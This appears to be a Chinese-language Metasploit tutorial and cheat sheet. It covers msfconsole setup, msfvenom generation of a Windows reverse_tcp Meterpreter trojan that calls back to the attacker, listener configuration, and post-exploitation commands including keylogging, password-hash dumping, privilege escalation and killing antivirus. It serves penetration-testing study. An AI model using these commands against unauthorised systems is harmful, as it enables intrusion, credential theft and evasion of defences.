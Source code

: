 # 启动Metasploit

- **启动MSF只要在kali中输入msfconsole就可以启动了**
- **启动PostgreSql数据库服务**:`service postgresql start` 
- **初始化MSF数据库**：`msfdb init`
- **查看数据库链接情况：**`msfconsole db_status`
- **建立数据库缓存：**`msfconsole db_rebuild_cache`

---

# 专业术语

1. **Exploit:攻击工具/代码**
2. **Payload:攻击载荷**
3. **Shellcode:可以理解为攻击代码**
4. **Module:模块**
5. **Listener:监听器**

---

# MSF中常用的命令

- show exploits-查看所有可用的渗透攻击程序
- show auxiliary -查看所有可用的辅助攻击工具
- show options - 查看一个模块所有可用选项
- show payloads - 查看一个模块适用的所有攻击载荷
- show targets - 查看一个模块可以攻击的目标类型
- search - 根据关键搜索某个模块
- info - 显示某个模块的详细信息
- use - 使用某个攻击模块
- back - 返回
- set/unset - 设置/禁用模块中的某个参数
- setg/unsetg - 设置/禁用适用于所有模块的全局参数
- save - 将当前设置值保存下来 下次启动msf依然可以使用

---

# <font color=red>MsfVenom（木马制作器）</font>

- **主要参数:**

```javascript
-p payload
-e 编码方式
-i 编码次数
-b 在生成的程序中避免出现的值
LHOST，LPORT 监听上线的主机ip和端口
-f 指定生成的格式 如exe
msfvenom -l payloads 查看所有可以利用的payload
可以使用grep查询特定payload

```

- **示例**

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=自己的IP地址 LPORT=要监听的端口 -f exe > 文件名.exe
```

- **在MSF中启动监听**

  ```shell
  set payload payloadName #要和被生成的程序使用一样的Payload
  set LHOST 自己的IP
  set LPORT 设置的监听端口
  set ExitOnSession false #让傀儡机器保持连接 就算一个连接退出 后台也保持监听状态
  exploit #执行监听 -j参数：作为job开始运行 -z:不立即进行session交换-也就是后台运行
  
  ```

  - **实例**

    ```shell
    use exploit/multi/handler
    set payload xxx
    show options#根据内容进行设置
    ```

    - **建立连接之后**

      ```shell
      sessions -i x 切换到某个会话
      sessions -k x 结束某个会话
      sessions -l 查看所有会话
```
      
  
  ---

# <font color=blue>Meterpreter渗透后攻击</font>

- > **Meterpreter提供的功能包括:反追踪，纯内存工作模式，系统信息获取 密码hash导出，文件上传下载，屏幕截图 键盘记录 权限提升 跳板攻击等**

- **常用的一些命令:**

  ```shell
  background:放回后台
  exit:关闭会话
  help：查看帮助
  sysinfo：系统信息
  screenshot：截图，可以使用eog查看图片
  shell：进入系统命令行
  getlwd：查看本地目录
  lcd:切换本地目录
  getwd：查看目录
  ls：查看文件
  cd：切换目录
  rm:删除文件
  download:download 远程路径 本地路径 下载文件
  upload:上传本地文件到远程主机，和上面命令相反
  execute -f xxx.exe -i :执行程序/命令
  ps:查看进程
  run post/windows/capture/keylog_recorder 键盘记录
  getuid：查看当前用户权限
  use priv：加载特权模块
  getsystem:提升到system权限
  hashdump：导出密码hash
  steal_token <PID>:伪装用户，用于执行一些gui界面特别有用
  rev2self:恢复默认令牌
  migrate_pid:迁移进程
  run killav:关闭杀毒软件
  run getgui -e：启动远程桌面
  
  ```

  